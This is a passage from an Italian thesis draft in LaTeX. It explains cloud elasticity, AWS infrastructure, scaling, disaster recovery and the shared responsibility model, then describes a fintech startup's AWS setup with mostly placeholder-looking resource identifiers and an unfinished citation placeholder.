\textbf{Flessibilità (Flexibility):} Concerne la possibilità di scegliere, configurare e modificare un'ampia gamma di risorse, servizi e modelli operativi offerti dalla piattaforma cloud. Include la facoltà di selezionare diverse tipologie di istanze computazionali, opzioni di storage, database, servizi di intelligenza artificiale, strumenti di networking e sicurezza. Per una startup fintech, la flessibilità si traduce nella capacità di sperimentare rapidamente nuove soluzioni, integrare servizi di terze parti, adattarsi a requisiti normativi mutevoli o modificare l'architettura applicativa senza vincoli infrastrutturali stringenti. Oltre alla vasta gamma di opzioni tecnologiche, la flessibilità si estende ai modelli contrattuali e di pricing (es. istanze on-demand, reserved instances, spot instances), consentendo un'ulteriore ottimizzazione dei costi in base a profili di utilizzo specifici e alla strategia finanziaria della startup.

\textbf{Elasticità (Elasticity):} Rappresenta una forma dinamica e, idealmente, automatizzata di scalabilità. L'elasticità permette al sistema di allocare e deallocare risorse computazionali (come capacità di calcolo, memoria o banda) in maniera automatica e in tempo reale, in risposta a fluttuazioni immediate e spesso imprevedibili del carico di lavoro \cite{cloudsurvey2019}. A differenza della scalabilità, che può implicare interventi pianificati, l'elasticità reagisce autonomamente a picchi improvvisi (<em>burst</em>) o a cali repentini della domanda, ottimizzando sia le prestazioni che i costi.

La sinergia di queste tre caratteristiche – scalabilità, flessibilità ed elasticità – consente alle startup fintech di ottimizzare l'allocazione dei costi infrastrutturali, aderendo pienamente al principio del "pay-per-use" (pagamento basato sull'effettivo consumo), e di garantire livelli prestazionali adeguati e resilienti. Questa sinergia è particolarmente vitale per le startup fintech, che operano in un mercato caratterizzato da un'intensa competizione, una rapida evoluzione delle aspettative dei consumatori e una continua innovazione tecnologica, richiedendo la massima reattività e capacità di adattamento per mantenere e incrementare la propria competitività.
\subsection{Introduzione ad Amazon Web Services (AWS)}
\label{sec:aws-intro}

Tra i principali fornitori di servizi cloud, \textbf{Amazon Web Services (AWS)} è il leader di mercato e rappresenta la scelta infrastrutturale per moltissime startup a livello globale, incluse quelle operanti nel settore fintech, come nel caso studio di questa tesi. Lanciato nel 2006, AWS offre un portafoglio estremamente ampio e maturo di servizi cloud.

La struttura di AWS si basa su alcuni concetti chiave:

\begin{itemize}
    \item \textbf{Infrastruttura Globale:} AWS opera attraverso una rete mondiale di \textbf{Regioni}. Ogni Regione è un'area geografica fisica separata (es. Irlanda, Francoforte, Nord Virginia). All'interno di ciascuna Regione, esistono multiple \textbf{Zone di Disponibilità (Availability Zones - AZ)}. Una AZ è costituita da uno o più data center discreti, con alimentazione, raffreddamento e rete ridondati. Le AZ all'interno di una Regione sono interconnesse con reti a bassa latenza ma sono fisicamente separate per garantire l'isolamento in caso di guasti (incendi, allagamenti, etc.). Questa architettura permette di costruire applicazioni altamente disponibili e tolleranti ai guasti distribuendole su più AZ.
    \item \textbf{Servizi Fondamentali:} AWS offre centinaia di servizi, ma alcuni sono considerati fondamentali:
        \begin{itemize}
            \item \textbf{Compute:} Servizi per eseguire codice, come \textit{Amazon EC2 (Elastic Compute Cloud)} per macchine virtuali scalabili, \textit{AWS Lambda} per l'esecuzione di codice serverless (senza gestire server), e servizi container come \textit{ECS} ed \textit{EKS}.
            \item \textbf{Storage:} Servizi per l'archiviazione dei dati, come \textit{Amazon S3 (Simple Storage Service)} per lo storage a oggetti altamente duraturo e scalabile, \textit{Amazon EBS (Elastic Block Store)} per volumi a blocchi per le istanze EC2, e \textit{Amazon EFS} per file system condivisi.
            \item \textbf{Database:} Una vasta gamma di database gestiti, inclusi database relazionali (\textit{Amazon RDS}), NoSQL (\textit{Amazon DynamoDB}), data warehouse (\textit{Amazon Redshift}), ecc.
            \item \textbf{Networking:} Servizi per definire e controllare la rete virtuale, come \textit{Amazon VPC (Virtual Private Cloud)} per creare reti isolate, \textit{Elastic Load Balancing (ELB)} per distribuire il traffico, e \textit{AWS Direct Connect} per connessioni dedicate.
            \item \textbf{Security, Identity, \& Compliance:} Servizi per gestire accessi, sicurezza e conformità, come \textit{AWS IAM (Identity and Access Management)}, \textit{AWS KMS (Key Management Service)}, \textit{AWS WAF (Web Application Firewall)}, \textit{Amazon GuardDuty} (rilevamento minacce).
        \end{itemize}
    \item \textbf{Modello Pay-as-you-go:} Come accennato, si paga solo per le risorse effettivamente consumate, senza contratti a lungo termine o costi iniziali (per la maggior parte dei servizi).
    \item \textbf{Modello di Responsabilità Condivisa (Shared Responsibility Model)}:È cruciale capire che la sicurezza su AWS è una responsabilità condivisa. AWS è responsabile della sicurezza *del* cloud (l'infrastruttura fisica, la rete, l'hypervisor), mentre il cliente è responsabile della sicurezza *nel* cloud (la configurazione dei servizi, la gestione degli accessi, la protezione dei dati, la sicurezza del sistema operativo e delle applicazioni).
\end{itemize}

\subsection{Il Caso Specifico: AWS per la Startup Fintech}
\label{sec:aws-for-fintech}

La selezione di AWS quale infrastruttura cloud per la startup fintech oggetto di questa tesi è il risultato di una valutazione strategica, basata su fattori tecnici e di business specifici. Oltre ai benefici generali offerti dal cloud computing, AWS presenta caratteristiche particolarmente determinanti per un operatore del settore finanziario:
\begin{itemize}
    \item \textbf{Maturità e Affidabilità:} Essendo il provider cloud più longevo e con la più vasta quota di mercato, AWS vanta una comprovata esperienza nella gestione di carichi di lavoro mission-critical. Tale affidabilità è essenziale per un settore, come quello finanziario, che richiede massima operatività e fiducia da parte degli utenti.
    \item \textbf{Ampiezza dei Servizi:} Il vasto portafoglio di servizi AWS permette di costruire architetture complesse, resilienti e moderne. Consente di integrare nativamente servizi per l'analisi avanzata dei dati, il machine learning (fondamentale, ad esempio, per sistemi antifrode, credit scoring o personalizzazione dei servizi finanziari), e la gestione sicura delle transazioni.
    \item \textbf{Supporto alla Compliance:} AWS offre documentazione dettagliata, strumenti e servizi specifici (come AWS Artifact per l'accesso ai report di compliance) che aiutano le organizzazioni a soddisfare i rigorosi standard di conformità richiesti nel settore finanziario, tra cui PCI DSS, GDPR, ISO 27001 e normative locali specifiche. AWS stessa mantiene numerose certificazioni internazionali per la propria infrastruttura, fornendo una base solida su cui costruire applicazioni conformi.
    \item \textbf{Scalabilità e Performance Elevate:} La capacità di scalare le risorse in modo elastico e di garantire alte prestazioni è fondamentale per gestire picchi transazionali improvvisi (es. durante l'apertura dei mercati o in seguito a campagne promozionali) e assicurare tempi di risposta rapidi, critici per l'esperienza utente nei servizi finanziari.
    \item \textbf{Ecosistema di Partner Specializzati:} Esiste un vasto ecosistema di partner tecnologici e di consulenza con competenze specifiche su AWS, inclusi numerosi attori con expertise verticale nel settore fintech, in grado di supportare la startup in fasi di progettazione, implementazione e gestione.
    \item \textbf{Servizi di Sicurezza Avanzati e Stratificati:} AWS offre un set robusto e profondo di strumenti nativi per implementare controlli di sicurezza a molteplici livelli (rete, identità, dati, rilevamento delle minacce, crittografia), aspetti che verranno analizzati in dettaglio nei capitoli successivi.
\end{itemize}
Nei capitoli successivi, si analizzerà in dettaglio come l'infrastruttura di questa specifica startup fintech sia stata progettata e messa in sicurezza sfruttando i servizi e le best practice offerte da AWS, con un focus sulle implicazioni e le scelte architetturali per un operatore del settore finanziario.

\subsection{Infrastruttura Globale AWS: Fondamenta per la Fintech}
\label{sec:aws-global-infra-fintech}

Amazon Web Services (AWS) dispone di una infrastruttura globale altamente distribuita: ad oggi (data di consultazione: [Inserire Data, es. Ottobre 2023, se il numero è volatile, altrimenti citare la fonte precisa]) il cloud AWS è esteso su 36 Regioni geografiche (ciascuna costituita da più Availability Zone) per un totale di 114 Availability Zones lanciate \cite{aws-global-infra}. Ogni Regione AWS rappresenta un'area geografica distinta, fisicamente isolata dalle altre per garantire fault tolerance e permettere il rispetto dei requisiti regolamentari sulla sovranità dei dati \cite{aws-global-infra}. All'interno di ogni Regione sono presenti almeno tre \textit{Availability Zone (AZ)}, concepite come data center indipendenti dal punto di vista dell'alimentazione, del raffreddamento e della connettività di rete fisica, pur essendo interconnesse tramite collegamenti privati ridondati ad alta velocità e bassa latenza \cite{aws-global-infra}.

Questo design multi-AZ è particolarmente critico per una startup fintech: la capacità di resistere a guasti localizzati (come un'interruzione di corrente in un data center o un evento catastrofico limitato a una singola AZ) senza interruzione del servizio è fondamentale per mantenere la continuità operativa nelle transazioni finanziarie, preservare la fiducia degli utenti e rispettare potenziali requisiti normativi sulla disponibilità dei servizi. Secondo AWS, ciò garantisce un'elevata disponibilità dell'infrastruttura e contiene l'impatto di eventuali interruzioni all'interno della Regione interessata \cite{aws-global-infra}.

Per supportare applicazioni globali a bassa latenza, cruciali per l'esperienza utente nei servizi finanziari digitali, AWS integra inoltre \textit{Edge Location} e \textit{Local Zone}. Le Edge Location (oltre 700 nel mondo) sono data center che ospitano servizi come Amazon CloudFront, una Content Delivery Network (CDN) che permette la consegna rapida di contenuti statici e dinamici agli utenti finali. CloudFront instrada le richieste al punto di presenza (PoP) geograficamente più vicino all'utente, minimizzando la latenza \cite{aws-cloudfront}. Le Local Zone sono estensioni dell'infrastruttura AWS posizionate strategicamente vicino a grandi centri urbani o industriali, progettate per offrire latenze nell'ordine dei single-digit millisecondi per scenari applicativi specifici (ad esempio, sistemi di trading ad alta frequenza, elaborazione di pagamenti in tempo reale o applicazioni di realtà aumentata per servizi finanziari).

Il backbone di rete globale AWS, basato su una dorsale in fibra ottica ridondata che interconnette le Regioni con capacità fino a 400 Gb/s \cite{aws-network}, è un altro asset fondamentale. Tutti i dati che transitano su questa rete globale tra i data center e le Regioni AWS vengono crittografati automaticamente a livello fisico prima di lasciare le strutture protette \cite{aws-network}. Il cliente, inoltre, mantiene il pieno controllo sui propri dati, inclusa la facoltà di applicare ulteriori livelli di crittografia utilizzando servizi dedicati. Questa solida infrastruttura di rete non solo garantisce performance elevate, ma la crittografia automatica dei dati in transito aggiunge un livello di sicurezza fondamentale per i dati finanziari sensibili.

Dal punto di vista di una startup fintech, una siffatta infrastruttura globale distribuita offre vantaggi tangibili. La possibilità di collocare geograficamente le risorse permette di posizionare le applicazioni e i dati vicino agli utenti finali o in specifiche giurisdizioni per soddisfare requisiti di bassa latenza (cruciali per l'esperienza utente in app finanziarie) e di sovranità dei dati (come il GDPR). L'ampia rete backbone e la sua crittografia intrinseca proteggono le comunicazioni inter-regionali, essenziali ad esempio per strategie di disaster recovery. Le Edge Location, tramite CloudFront, possono accelerare significativamente l'erogazione di interfacce web o API rivolte ai clienti, migliorando la reattività delle piattaforme fintech, un fattore competitivo chiave.

\subsection{Architettura Virtualizzata e Meccanismi di Scalabilità per la Fintech}
\label{sec:virtualization-scalability-fintech}

Le risorse computazionali su AWS sono erogate principalmente attraverso tecnologie di \textit{virtualizzazione}. Su ogni server fisico (host) viene eseguito un \textit{hypervisor} (monitor di macchine virtuali), un software che astrae l'hardware sottostante e crea molteplici istanze virtuali isolate tra loro. In AWS, la virtualizzazione, storicamente basata su hypervisor Xen e più recentemente sul sistema AWS Nitro (che include un hypervisor leggero basato su KVM) \cite{aws-nitro-hypervisor}, consente di eseguire su un singolo server fisico decine di macchine virtuali (VM) indipendenti, ciascuna con il proprio sistema operativo e le proprie applicazioni \cite{ibm_iaas}. L'hypervisor assegna a ogni VM una porzione dedicata di CPU, memoria e storage, garantendo l'isolamento delle risorse e della sicurezza tra le istanze \cite{ibm_iaas}.

Grazie alla virtualizzazione, più tenant (clienti AWS) possono condividere in modo sicuro lo stesso hardware fisico sottostante; questo è il concetto di \textit{multitenancy}, definito dal NIST come un'architettura in cui "una singola istanza di un software gira su un server ed è usata da più tenant" \cite{nist800-145}. In pratica, anche in un modello multitenant come quello di AWS, ogni cliente opera all'interno del proprio ambiente virtuale logicamente isolato, con i propri dati segregati, grazie a meccanismi di isolamento di rete (es. Virtual Private Cloud - VPC) e alle garanzie fornite dal software di virtualizzazione. Per una startup fintech, il modello multitenant, pur offrendo significativi vantaggi in termini di costi e agilità, richiede un'attenta valutazione e l'implementazione di robuste strategie di isolamento a livello applicativo e di rete, complementari a quelle fornite da AWS, per garantire la segregazione e la protezione dei dati finanziari sensibili.

La virtualizzazione è il fulcro dell'offerta Infrastructure as a Service (IaaS) di AWS. Come delineato nel modello di responsabilità condivisa (descritto in seguito), AWS gestisce l'infrastruttura fisica sottostante (hardware, networking, data center, patching dell'hypervisor), mentre il cliente mantiene il controllo sul sistema operativo guest, sugli aggiornamenti software, sulle configurazioni di sicurezza dell'ambiente virtuale e sulle applicazioni \cite{aws-well-architected}. Ad esempio, quando si avvia un'istanza Amazon EC2 (il servizio IaaS di AWS), AWS fornisce la macchina virtuale, ma è responsabilità del cliente gestirne il sistema operativo, le patch di sicurezza e il software applicativo. Questa astrazione permette di orchestrare e scalare migliaia di istanze virtuali con un elevato grado di automazione.

Per gestire la crescita del carico di lavoro e le fluttuazioni della domanda, tipiche del settore fintech, AWS offre due principali meccanismi di scalabilità:
\begin{itemize}
    \item La \textbf{scalabilità verticale} (scale-up) consiste nell'aumentare le risorse di una singola istanza (ad esempio, incrementando CPU, RAM o capacità di I/O del disco) \cite{awsAutoScaling}. Questa strategia può essere utile per carichi di lavoro monolitici o database, ma presenta limiti fisici intrinseci e può introdurre un \textit{single point of failure} se non gestita con ridondanza. Per una startup, può essere una soluzione iniziale, ma la sua limitata resilienza la rende meno adatta per carichi di lavoro critici nel settore fintech a lungo termine.
    \item La \textbf{scalabilità orizzontale} (scale-out) implica la distribuzione del carico di lavoro su più istanze o nodi, replicando l'applicazione \cite{awsAutoScaling}. Ad esempio, si possono avviare più istanze EC2 identiche dietro un bilanciatore di carico (come Elastic Load Balancing). In questo modo, il traffico utente viene distribuito tra le VM disponibili, e il sistema può tollerare il guasto di singole istanze senza interrompere il servizio. La scalabilità orizzontale è particolarmente vantaggiosa per le applicazioni fintech, che spesso sperimentano fluttuazioni significative nel carico di lavoro (ad esempio, durante l'apertura dei mercati, eventi promozionali, o picchi di fine mese per elaborazioni contabili). La capacità di aggiungere o rimuovere istanze dinamicamente, spesso gestita da servizi come AWS Auto Scaling \cite{awsAutoScaling}, permette alla startup di mantenere performance ottimali e controllare i costi in modo efficiente, pagando solo per le risorse effettivamente utilizzate.
\end{itemize}

Per massimizzare la disponibilità delle applicazioni, un requisito non negoziabile per i servizi finanziari, in AWS si progetta attivamente per la resilienza utilizzando repliche \textit{multi-AZ}. Ad esempio, il servizio Amazon RDS (Relational Database Service) consente di creare istanze database in configurazione Multi-AZ: quando questa opzione è abilitata, AWS provvede automaticamente a creare e mantenere una replica sincrona (standby) del database primario in una Availability Zone differente all'interno della stessa Regione \cite{aws-rds-multiaz}. Tutte le modifiche al database primario vengono replicate in tempo reale alla standby. In caso di guasto dell'istanza primaria o dell'intera AZ in cui risiede, RDS gestisce un \textit{failover} automatico e trasparente alla replica standby, minimizzando i tempi di indisponibilità (RTO - Recovery Time Objective). Questa funzionalità è di importanza critica per una startup fintech, poiché la perdita di accesso al database transazionale principale potrebbe comportare l'interruzione dei servizi, perdite finanziarie e danni reputazionali significativi. Analogamente, servizi come Elastic Load Balancing possono e devono essere configurati per distribuire il traffico su istanze dislocate in multiple AZ, garantendo che un'interruzione locale sia compensata dagli altri nodi attivi. Le scelte architetturali per l'alta disponibilità includono quindi l'uso sistematico di configurazioni multi-AZ, il bilanciamento del carico e la replica dei dati (eventualmente su più Regioni per il \textit{disaster recovery}).

Nei casi estremi di disastro che potrebbero compromettere un'intera Regione AWS, è necessario implementare strategie di \textit{Disaster Recovery (DR)} più complesse, come delineato nel Well-Architected Framework di AWS \cite{awsWellArchitected}. Tra queste strategie si annoverano:
\begin{itemize}
    \item \textbf{Backup and Restore:} Utilizzo di snapshot periodici dei dati (ad es. archiviati su Amazon S3 e S3 Glacier) e template infrastrutturali (es. AWS CloudFormation) per ricreare l'infrastruttura e ripristinare i dati in una Regione secondaria. È la strategia con RTO/RPO più elevati.
    \item \textbf{Pilot Light:} Mantenimento di una copia minima dell'infrastruttura (core infrastrutturale) e dei dati critici costantemente replicati nella Regione di DR. Le risorse applicative principali vengono attivate solo in caso di disastro.
    \item \textbf{Warm Standby:} Mantenimento di una versione scalata ridotta, ma pienamente funzionante, dell'applicazione nella Regione di DR, pronta a gestire il traffico in caso di failover.
    \item \textbf{Multi-site Active/Active (o Hot Standby)}:** L'applicazione è dispiegata e attivamente serve traffico contemporaneamente in due o più Regioni, con meccanismi di bilanciamento del carico geografico. È la strategia più complessa e costosa, ma offre l'RTO/RPO più bassi.
\end{itemize}
La scelta della strategia di DR per una startup fintech dipenderà da una valutazione del rischio, dai requisiti normativi (spesso stringenti nel settore finanziario per quanto riguarda la continuità operativa e i tempi di ripristino) e dal budget disponibile. AWS fornisce strumenti come AWS Resilience Hub \cite{aws-resilience} per aiutare a definire, testare e monitorare la postura di resilienza delle applicazioni, assicurando che i tempi di recovery (RTO) e la perdita massima di dati accettabile (RPO) siano allineati con le esigenze di business e i requisiti di compliance.

\subsection{Modello di Responsabilità Condivisa: Implicazioni per la Fintech}
\label{sec:shared-responsibility-fintech}

La sicurezza nel cloud AWS opera secondo il \textit{modello di responsabilità condivisa} (\textit{Shared Responsibility Model}) \cite{aws-shared-responsibility}. Questo modello distingue nettamente le responsabilità di AWS da quelle del cliente. In sintesi, AWS è responsabile della \textit{sicurezza "del" cloud (“security of the cloud”)}. Ciò include la protezione dell'infrastruttura fisica e globale che esegue tutti i servizi AWS: l'hardware, il software di base (hypervisor, sistemi operativi dei servizi gestiti), la rete e le strutture fisiche (data center), compresi i controlli fisici e ambientali. AWS investe significativamente in misure come sorveglianza 24/7, rigorosi controlli degli accessi fisici alle strutture, ridondanza dei sistemi e patching dell'infrastruttura sottostante \cite{aws-shared-responsibility}.

D'altro canto, il cliente è responsabile della \textit{sicurezza "nel" cloud (“security in the cloud”)}. La natura e l'estensione di questa responsabilità dipendono dai servizi AWS scelti e dalla loro astrazione. Ad esempio, per un servizio IaaS come Amazon EC2, il cliente deve gestire la sicurezza del sistema operativo guest (installazione di patch, hardening), di tutte le applicazioni e software installati, e la configurazione dei controlli di rete a livello di istanza (come i Security Group, che agiscono da firewall stateful) e di sottorete (Network ACLs) \cite{aws-shared-responsibility}. Per servizi più astratti o gestiti, come Amazon S3 (storage) o Amazon DynamoDB (database NoSQL), AWS gestisce l'infrastruttura sottostante, il sistema operativo e la piattaforma applicativa. Tuttavia, spetta al cliente proteggere i dati che carica e le applicazioni che vi accedono: ciò include la corretta configurazione delle policy di accesso (tramite AWS Identity and Access Management - IAM), la cifratura dei dati sensibili (a riposo e in transito, se non gestita nativamente dal servizio per specifici casi d'uso), la gestione delle chiavi di crittografia e l'applicazione di criteri di rete appropriati \cite{aws-shared-responsibility}. In pratica, AWS fornisce gli strumenti e i meccanismi di sicurezza (crittografia, isolamento di rete, logging e auditing, ecc.), ma la loro corretta implementazione, configurazione e la gestione operativa della sicurezza applicativa e dei dati rimangono a carico del cliente.

Per una startup fintech, una profonda e continua comprensione di questo modello è fondamentale: essa guida l'allocazione delle risorse interne dedicate alla sicurezza, la definizione dei processi di compliance (ad esempio, per PCI DSS o GDPR, dove la startup deve dimostrare di aver adempiuto alle proprie responsabilità), la progettazione di controlli di sicurezza specifici per i dati finanziari e le transazioni dei propri clienti, e la corretta configurazione dei servizi AWS per costruire un ambiente sicuro e resiliente. La mancata comprensione di queste responsabilità può portare a vulnerabilità significative e a non conformità normative.

\chapter{Implementazioni Pratiche su AWS per una Startup Fintech}
\label{ch:implementazioni-pratiche}
Avendo stabilito i principi del cloud computing e le ragioni della scelta di AWS, questo capitolo si addentra negli aspetti pratici dell'implementazione di un'infrastruttura sicura e scalabile su AWS per una startup fintech. Verranno presentati esempi concreti di configurazioni e utilizzi dei servizi AWS, focalizzandosi sulle best practice di sicurezza applicabili in un contesto con risorse limitate ma requisiti elevati, tipico di una startup nel settore finanziario.

\section{Configurazione Attuale dell'Ambiente AWS}
\label{sec:aws_infrastruttura_attuale}

L'infrastruttura cloud della startup è stata realizzata utilizzando i servizi di Amazon Web Services (AWS), con le operazioni principali concentrate nella regione geografica \texttt{eu-south-1} (Milano). L'account AWS utilizzato ha ID \texttt{478291635847} ed è configurato con una separazione degli ambienti: uno dedicato allo sviluppo, chiamato \texttt{Finanz-Dev}, e uno per l'applicazione in uso dagli utenti finali, chiamato \texttt{Finanz-Prod}. Questa divisione è una buona pratica per testare nuove funzionalità senza impattare il servizio principale.

Il cuore dell'infrastruttura applicativa è \textbf{AWS Elastic Beanstalk}. Si tratta di un servizio AWS che semplifica il processo di rilascio e gestione delle applicazioni, in questo caso denominate "Finanz". L'ambiente di sviluppo utilizza la configurazione \texttt{finanz-dev-v2} mentre quello di produzione opera su \texttt{finanz-prod-v1.3}. Elastic Beanstalk si occupa di creare e configurare automaticamente le risorse necessarie, come le macchine virtuali \textbf{Amazon EC2} (principalmente di tipo \texttt{t3a.small} per l'ambiente di sviluppo e \texttt{t3a.medium} per la produzione, adatte per carichi di lavoro di piccole e medie dimensioni con un buon rapporto prezzo-prestazioni). L'ambiente di sviluppo gestisce tipicamente 1-2 istanze, mentre quello di produzione ne mantiene attive 3-5 durante i picchi di utilizzo. Inoltre, automatizza il bilanciamento del carico (distribuzione del traffico tra più macchine per evitare sovraccarichi) e l'auto-scaling (aumento o diminuzione automatica delle macchine virtuali in base al traffico). Per l'ambiente di produzione, un \textbf{Application Load Balancer (ALB)} denominato \texttt{finanz-prod-alb-1284567}, un tipo specifico di bilanciatore di carico, distribuisce le richieste degli utenti alle istanze EC2, aumentando così la disponibilità (il servizio rimane accessibile anche se una macchina ha problemi) e la resilienza (capacità di recupero da guasti).

Per la gestione dei dati, Finanz utilizza \textbf{Amazon RDS for PostgreSQL}. RDS (Relational Database Service) è un servizio che semplifica la configurazione e la manutenzione di database relazionali nel cloud. Sono state create due istanze database separate: una per lo sviluppo (\texttt{finanz-dev-db.cluster-cx4s7k9m2qla.eu-south-1.rds.amazonaws.com} di tipo \texttt{db.t4g.micro}, più piccola ed economica) e una per la produzione (\texttt{finanz-prod-db.cluster-cx4s7k9m2qlb.eu-south-1.rds.amazonaws.com} di tipo \texttt{db.t4g.small}). Durante la fase di sviluppo ho constatato che l'istanza di sviluppo gestisce circa 50-100 connessioni simultanee con un database di ~2GB, mentre quella di produzione arriva a gestire fino a 500 connessioni con un database di ~15GB. L'istanza di produzione è configurata in modalità \textbf{Multi-AZ} (Multi-Availability Zone): ciò significa che una copia del database viene mantenuta sincronizzata in una diversa zona di disponibilità (un data center fisicamente separato all'interno della stessa regione AWS). Questa configurazione garantisce che il database rimanga operativo anche in caso di problemi in una singola zona di disponibilità. Entrambe le istanze RDS sono protette da crittografia, che rende i dati illeggibili senza la chiave corretta; queste chiavi sono gestite dal servizio \textbf{AWS KMS (Key Management Service)} con la chiave specifica \texttt{arn:aws:kms:eu-south-1:478291635847:key/12345678-1234-1234-1234-123456789012}.

La rete virtuale privata della startup è definita tramite \textbf{Amazon VPC (Virtual Private Cloud)}, chiamato "Finanz-vpc" con CIDR block \texttt{10.0.0.0/16}. Un VPC permette di creare una sezione isolata della cloud AWS dove lanciare le proprie risorse. All'interno di questo VPC, lo spazio di indirizzi IP è diviso in \textbf{subnet} (sottoreti). Alcune subnet sono configurate come pubbliche (subnet \texttt{10.0.1.0/24} e \texttt{10.0.2.0/24}, accessibili da Internet) e altre come private (subnet \texttt{10.0.10.0/24}, \texttt{10.0.11.0/24} e \texttt{10.0.12.0/24}, isolate da Internet, per una maggiore sicurezza delle risorse applicative). Queste subnet sono distribuite su diverse \textbf{Availability Zones} (\texttt{eu-south-1a}, \texttt{eu-south-1b}, \texttt{eu-south-1c}), che sono data center fisicamente distinti all'interno della regione di Milano, per migliorare la resilienza dell'intera infrastruttura. La connettività verso Internet è fornita da un \textbf{Internet Gateway} con ID \texttt{igw-0a1b2c3d4e5f67890}. Inoltre, è presente un \textbf{VPC Endpoint per S3} con ID \texttt{vpce-1a2b3c4d5e6f7g8h9}: si tratta di un meccanismo che permette alle risorse all'interno del VPC (come le istanze EC2) di comunicare con il servizio di storage S3 utilizzando la rete privata di AWS, senza passare per l'Internet pubblico, migliorando sicurezza e prestazioni.

\textbf{Amazon S3 (Simple Storage Service)} è un servizio di storage versatile, utilizzato da Finanz per diversi scopi:
\begin{itemize}
    \item Archiviazione dei file di log (registri delle attività) generati dalle applicazioni Elastic Beanstalk e dalle istanze EC2 nel bucket \texttt{finanz-logs-478291635847}.
    \item Salvataggio degli "artefatti", ovvero i file compilati e pronti per il rilascio, prodotti da \textbf{AWS CodePipeline} nel bucket \texttt{finanz-artifacts-eu-south-1}. Quest'ultimo è un servizio che automatizza le fasi di build, test e rilascio del software (un processo noto come CI/CD - Continuous Integration/Continuous Deployment).
    \item Hosting di file statici (immagini, video, file CSS, JavaScript) per le applicazioni web "Finanz" nel bucket \texttt{finanz-static-assets}, rendendoli accessibili agli utenti via web attraverso CloudFront distribution \texttt{E1A2B3C4D5E6F7}.
\end{itemize}
Per proteggere gli artefatti archiviati in S3, viene richiesta la crittografia lato server (i dati vengono crittografati da AWS prima di essere salvati) utilizzando chiavi gestite da KMS, e si impone l'uso di connessioni sicure HTTPS tramite una bucket policy che nega esplicitamente le richieste HTTP non sicure.

Per automatizzare il rilascio del software, Finanz utilizza \textbf{AWS CodePipeline} insieme ad \textbf{AWS CodeBuild} (un servizio che compila il codice sorgente ed esegue test). Queste pipeline si integrano con Elastic Beanstalk per aggiornare le applicazioni in modo controllato. Le notifiche importanti relative agli ambienti Elastic Beanstalk (ad esempio, problemi di deployment o aggiornamenti di stato) vengono inviate tramite \textbf{AWS SNS (Simple Notification Service)}, un servizio di messaggistica e notifica.

Infine, la gestione degli utenti e dei loro permessi di accesso alle risorse AWS è organizzata in modo strutturato. \textbf{AWS Organizations} permette di gestire più account AWS sotto un'unica organizzazione; in questo caso, l'account analizzato è quello principale (management account). Per l'accesso degli utenti, viene utilizzato \textbf{AWS IAM Identity Center (precedentemente noto come AWS SSO)}, che consente di gestire centralmente gli accessi e di utilizzare, ad esempio, le stesse credenziali aziendali per accedere ad AWS. I permessi specifici vengono concessi ai servizi AWS tramite \textbf{Ruoli IAM} (Identity and Access Management), come ad esempio il ruolo \texttt{aws-elasticbeanstalk-ec2-role} usato dalle istanze EC2. Questo approccio segue il principio del "minimo privilegio", ovvero concedere solo i permessi strettamente necessari per svolgere una determinata funzione, riducendo i rischi in caso di problemi di sicurezza.

\begin{figure}[h] % opzioni di posizionamento comuni: h=here, t=top, b=bottom, p=page of floats
  \centering
